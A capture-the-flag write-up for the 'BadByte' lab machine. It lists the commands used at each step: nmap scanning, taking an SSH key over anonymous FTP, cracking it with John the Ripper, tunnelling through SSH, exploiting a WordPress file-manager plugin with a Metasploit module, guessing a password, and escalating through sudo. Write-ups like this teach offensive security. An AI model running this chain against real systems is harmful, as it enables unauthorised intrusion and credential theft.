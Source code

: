 # BadByte Write-up - Easy

## Nmap 

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 30024: ftp. vsftpd 3.0.3. Anonymous login allowed

None of the versions appear to be vulnerable.


## FTP and John the Ripper

Nmap showed we have anonymous access to the ftp server with some interesting files:
```
ftp <ip> 30024
get note.txt
get id_rsa
```
note.txt informs us about the key in the same directory and gives us a username **errorcauser**, so I downloaded the private key and used ssh2john with John the Ripper and the rockyou wordlist to attempt to crack the key.

```
ssh2john id_rsa > johnkey
john --wordlist=rockyou.txt johnkey
```

which quickly cracked the credentials for ssh: **errorcauser : cupcake**.


## SSH

```
chmod 600 id_rsa
ssh errorcauser@<ip> -i id_rsa -D 1337
```

I gave the key the correct permissions and used tunnelling to bypass the firewall and get an initial shell on the system.
Some helpful information was found in the note.txt file in the current directory:
```
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```


## Wordpress Enumeration

After using dynamic port forwarding and proxychains to bypass the firewall, I evaluated the webserver running on port 80 using nmap with http-wordpress-enum and wpscan.

```
proxychains nmap -sT 127.0.0.1 --script=http-wordpress-enum
wpscan --url http://127.0.0.1:<port> -e ap,at -vv
```

note.txt indicated that the theme might be vulnerable, and running searchsploit on the installed duplicator plugin found by nmap confirmed an arbitrary file read exploit.
The more interesting vulnerability, though, is in the wp-file-manager plugin with version 6.0, so I fired up Metasploit to exploit it.

```
msfconsole
use exploit/multi/http/wp_file_manager_rce 
<set options>
run
```
This gave me a meterpreter session, where I could find the flag in cth's home directory.


## Privilege Escalation to root

When browsing the file system, I found an interesting log file /var/log/bash.log. This contained the password **G00dP@$sw0rd2020** so I tried to ssh to get a proper shell for the cth user with this password.

```
ssh cth@<ip> -i id_rsa -D 1337
```

However, it said the password was incorrect. After some head scratching, I tried to brute force ssh with some similar passwords, and eventually got in with **G00dP@$sw0rd2021** by incrementing the year at the end of the password. I then logged in as cth.

Evaluating the sudo permissions to find a privilege escalation vector:
```
sudo -l
User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```

Since I can run all commands with sudo, I simply ran sudo bash to get root and find the final flag.
```
sudo bash
cat /root/root.txt
```
